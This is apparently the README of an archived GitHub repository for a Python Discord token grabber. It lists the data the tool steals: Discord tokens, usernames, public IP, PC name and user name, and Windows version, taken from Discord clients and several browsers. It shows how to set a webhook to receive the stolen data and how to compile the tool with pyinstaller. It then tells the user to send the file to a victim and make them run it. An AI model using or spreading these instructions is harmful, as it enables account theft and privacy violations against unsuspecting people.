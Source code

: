 > **Warning**
> The method of grabbing tokens no longer works hence im archiving the repo. I will not update this.

<h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3. </p>

![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green)
[![wakatime](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56.svg)](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56)

This version of the grabber **only** supports **Windows**.
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![fancy](https://imgur.com/pHKYnQl.png "example of fancy mode")  
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- some fixes
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
